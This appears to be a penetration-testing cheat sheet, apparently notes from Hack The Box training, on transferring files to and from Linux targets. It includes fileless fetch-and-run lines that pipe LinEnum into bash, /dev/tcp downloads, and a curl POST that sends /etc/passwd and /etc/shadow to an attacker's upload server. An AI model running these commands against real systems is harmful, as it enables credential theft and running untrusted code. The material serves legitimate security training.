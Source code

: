 
# Download files

```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### Fileless
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Bash
[[bash]]
```shell
h@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80

h@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

h@htb[/htb]$ cat <&3
```

#### SSH
[[ssh]]
```shell
h@htb[/htb]$ sudo systemctl start ssh

h@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt . 
```

# Upload files

Start server:
```shell
h@htb[/htb]$ sudo python3 -m pip install --user uploadserver

h@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

h@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```
Upload:
```shell
h@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

Python/PHP/Ruby servers:

```shell
h@htb[/htb]$ python3 -m http.server

h@htb[/htb]$ python2.7 -m SimpleHTTPServer

h@htb[/htb]$ php -S 0.0.0.0:8000

h@htb[/htb]$ ruby -run -ehttpd . -p8000
```